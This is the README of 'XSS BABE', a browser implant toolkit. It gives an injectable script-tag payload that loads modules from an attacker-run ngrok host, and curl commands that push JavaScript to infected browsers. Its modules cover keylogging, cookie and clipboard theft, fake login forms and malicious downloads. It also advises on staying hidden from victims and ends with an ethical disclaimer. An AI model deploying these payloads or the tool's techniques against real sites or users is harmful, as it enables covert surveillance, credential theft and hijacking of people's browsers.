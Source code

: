 # XSS BABE – by ekomsSavior

**XSS BABE** is a browser-based red team implant system built entirely in JavaScript and Python. It is designed for ethical cybersecurity research, browser exploitation simulation, and educational purposes. XSS Babe dynamically loads multiple payload modules into a victim's browser using a single script tag.

This tool is ideal for understanding the power of XSS-based post-exploitation, teaching students browser abuse tactics, and building real-time control panels for red team operations.

---

## Features

- Keylogger with live keystroke logging  
- JavaScript-based reverse shell command execution  
- Screenshot capture using HTML2Canvas  
- Fingerprinting (user-agent, screen resolution, timezone)  
- Browser recon and port scanning  
- Clipboard capture  
- Webcam access prompt  
- Browser history profiling  
- Password bait module with fake login form  
- Download button that serves real payloads  
- Cross-tab messaging to capture user activity across tabs  
- Dynamic auto-loader that pulls all modules from the server  
- Optional Discord webhook alerts for real-time victim beacons  
- Dashboard interface for viewing logs  

---

## Prerequisites

- Python 3  
- Pip (`pip3`)  
- A Ngrok account (free) and binary installed  
- A basic understanding of using the terminal  

---

## Installation Instructions

1. **Clone the repository**
   ```bash
   git clone https://github.com/ekomsSavior/XSS-BABE.git
   cd xss_babe
   ```

2. **Run the setup script**
   This installs dependencies, sets up folders, and starts the Flask server.
   ```bash
   chmod +x setup_repo.sh
   ./setup_repo.sh
   ```

---

##  Ngrok Setup Instructions (Full Walkthrough)

To run XSS Babe over the internet, you’ll need to tunnel the server using **Ngrok**.

** Step 1: Install Ngrok** — Download the binary from [https://ngrok.com/download](https://ngrok.com/download). For Kali Linux or Debian-based systems:  
```bash
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-amd64.zip
unzip ngrok-stable-linux-amd64.zip
sudo mv ngrok /usr/local/bin/
```

** Step 2: Sign Up & Get Your Auth Token** — Create a free account at [https://ngrok.com/signup](https://ngrok.com/signup), then copy your token from [https://dashboard.ngrok.com/get-started/setup](https://dashboard.ngrok.com/get-started/setup) and run:  
```bash
ngrok config add-authtoken YOUR_AUTHTOKEN_HERE
```

** Step 3: Start the Flask Server** — From your project directory, run:  
```bash
python3 server.py
```

** Step 4: Start Ngrok Tunnel** — In a new terminal window:
```bash
ngrok http 5000
```

Ngrok will give you a public URL like:
```
https://abc123.ngrok.io
```

Use this domain in all injected payloads and external links.

---

## How to Use the Payload

Once Ngrok is running and you have your public domain:

1. Inject this payload into a vulnerable XSS point:
   ```html
   <script src="https://abc123.ngrok.io/static/x.js"></script>
   ```

2. If you need it URL-encoded:
   ```
   %3Cscript%20src%3D%22https%3A%2F%2Fabc123.ngrok.io%2Fstatic%2Fx.js%22%3E%3C%2Fscript%3E
   ```

This will dynamically load all modules into the victim’s browser, including keylogger, reverse shell, recon, and more.

---

## Viewing Logs and Interacting with Victims

### Live Dashboard

Visit your dashboard from your browser to see logs in real time:
```
https://abc123.ngrok.io/
```

### Command Execution

Send JavaScript to all infected browsers:
```bash
curl -X POST https://abc123.ngrok.io/cmd -d "alert('This is a test')"
```

Example of something stealthier:
```bash
curl -X POST https://abc123.ngrok.io/cmd -d "document.body.style.background='black'"
```

The shell module fetches commands every 2 seconds and executes them silently.

---

## Maintaining Browser Access

Once a victim is hooked:

- Do not spam alert boxes — this creates suspicion  
- Use the `shell.js` module to run background JS tasks  
- Use `password_bait.js` to simulate login prompts during inactivity  
- Use `tab_messenger.js` to track movement between tabs  
- Avoid reloading the browser tab — that will clear JS execution  
- Track screenshots, clipboard, keystrokes, and tabs in real-time  
- Use Discord webhook alerts to notify you when a browser is hooked  

---

## Using Real Payloads

XSS Babe delivers **real payloads**. You may place the following in your `/payloads` folder:

- `reverse_shell.zip` – zipped payload  
- `chrome_patch.exe` – real malicious binary for simulation  
- `malware_scan_tool.apk` – Android APK for testing on phones  
- `password_list.txt` – used in bait or as decoy  

In `fake_download.js`, change the download URL to your real payload:
```js
window.location = "/payloads/reverse_shell.zip";
```

Use only in controlled environments and with full authorization.

---

## Maintaining XSS Babe

Tips and tricks for best results:

- Restart `server.py` after editing Python or JS files  
- Add or remove modules by editing `static/x.js`  
- Log files are stored in `logs/victims.txt`  
- Add your real payloads to the `/payloads` directory  
- Customize `dashboard.html` to match your engagement branding  
- Keep `.gitignore` in place to avoid pushing payloads or logs to GitHub  
- Check browser CSP headers — some sites block external scripts  
- Use Ngrok TLS (`https://`) to avoid mixed content blocking  

---

## Directory Structure

```
xss_babe/
├── server.py
├── setup_repo.sh
├── .gitignore
├── logs/
│   └── victims.txt
├── payloads/
│   ├── reverse_shell.zip
│   ├── chrome_patch.exe
│   ├── password_list.txt
│   └── malware_scan_tool.apk
├── static/
│   ├── x.js
│   ├── keylogger.js
│   ├── shell.js
│   ├── auto_cookie_steal.js
│   ├── webcam.js
│   ├── clipboard.js
│   ├── fingerprint.js
│   ├── screenshot.js
│   ├── recon.js
│   ├── history.js
│   ├── password_bait.js
│   ├── fake_download.js
│   └── tab_messenger.js
├── templates/
│   └── dashboard.html
```

---

## Ethical Statement

XSS Babe is an offensive security research tool.

It is intended only for use in:
- Your own labs  
- Authorized red team engagements  
- Security training environments  

Never deploy XSS Babe on a live system without explicit written permission. 
Misuse of this tool may be illegal.
the user assumes all risk when using this tool. 
ekomsSavior provides this tool without warranty.

---

